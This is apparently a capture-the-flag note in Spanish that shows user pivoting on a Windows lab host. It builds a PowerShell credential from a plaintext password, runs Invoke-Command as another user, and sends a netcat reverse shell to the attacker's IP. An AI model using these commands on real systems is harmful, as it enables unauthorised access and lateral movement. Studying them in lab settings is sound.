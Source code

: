 # Windows Script Block for exec Commands like another User with his password

Paso 1
```
$secPass = ConvertTo-SecureString 'Zx^#!QZX+T!123' -AsPlainText -Force
```
Paso 2
```
$cred = New-Object System.Management.Automation.PSCredential('ARKHAM\batman', $secPass)
```

Paso 3 ejecutando comandos como el usuario Batman desde el user alfred
```
whoami
arkham\alfred

Invoke-Command -ComputerName ARKHAM -Credential $cred -ScriptBlock { whoami }
arkham\batman
PS C:\> 
```
Si tenemos un nc.exe subido a la maquina podemos enviarnos una rev shell para hacer user pivoting usando ScriptBlock para ejecutar
comandos como el usuario batman
```
Invoke-Command -ComputerName ARKHAM -Credential $cred -ScriptBlock { C:\Windows\System32\spool\drivers\color\nc.exe -e cmd 10.10.16.7 443 }
```
Ganando acceso
```
# rlwrap nc -vlnp 443
listening on [any] 443 ...
connect to [10.10.16.7] from (UNKNOWN) [10.10.10.130] 49698
Microsoft Windows [Version 10.0.17763.107]
(c) 2018 Microsoft Corporation. All rights reserved.

whoami
whoami
arkham\batman
```
